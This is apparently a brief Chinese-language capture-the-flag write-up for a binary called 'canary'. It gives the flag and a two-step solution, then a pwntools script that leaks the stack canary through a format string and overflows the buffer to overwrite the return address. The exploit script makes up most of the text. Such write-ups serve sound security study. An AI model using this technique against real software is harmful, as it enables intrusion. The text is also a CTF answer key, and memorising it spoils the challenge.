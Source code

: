 ## flag

flag{666666666666666666666}

## 解題步驟

1. 利用格式化字符串泄露出canary

2. 然後進行堆疊溢位到返回地址即可

```
from pwn import *
from time import *

p=process("./canary")
# p=remote("127.0.0.1",1000)
context(log_level='debug', os='linux', arch='amd64')
flag=0x06016C0
p.sendlineafter("it",b'%11$p')
p.recvuntil("gift:")
stack=int(p.recv(18),16)
payload=b'a'*0x28+p64(stack)+b'a'*8+p64(0x4006F7)
p.sendlineafter("attack",payload)
p.interactive()
```

![1733300555890](img/1733300555890.png)